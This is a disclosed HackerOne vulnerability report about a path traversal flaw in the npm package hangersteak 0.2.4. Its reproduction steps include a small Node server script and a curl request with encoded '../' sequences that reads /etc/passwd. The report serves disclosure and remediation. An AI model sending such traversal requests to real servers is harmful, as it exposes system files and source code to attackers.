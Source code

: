# [hangersteak] Web Server Directory Traversal via Crafted GET Request

## Report Details
- **Report ID**: 790873
- **URL**: https://hackerone.com/reports/790873
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-02-07T20:51:40.259Z
- **Disclosed**: 2020-08-30T15:56:12.642Z

## Reporter
- **Username**: bp0lr
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report path traversal in hangersteak module.
It allows an attacker to read system files via path traversal local/remote

# Module

**module name:** hangersteak
**version:** 0.2.4 (latest)
**npm page:** `https://www.npmjs.com/package/hangersteak`

## Module Description

Node web static files server with built in compression support.

## Module Stats

downloads in the last year 1,684

# Vulnerability

## Vulnerability Description

Directory traversal through the url which doesn't verify the file is from the root directory path.

## Steps To Reproduce:

1 npm install hangersteak
2 create index.js with content

```const http = require('http')
const hangersteak = require('hangersteak')
const server = http.createServer((req, res) => { hangersteak(req, res) })
server.listen(3006)```

3 start the aplication `nodejs index.js`
4 `curl "http://localhost:3006/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd"`

it will list the content of /etc/passwd

# Wrap up

> Select Y or N for the following statements:

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N] 

thanks!

## Impact

An attacker can leverage this vulnerability to request arbitrary files from the target host, which may include application source code or system files.
The package by default listen to 0.0.0.0 enabling external access.

## Attachments
No attachments
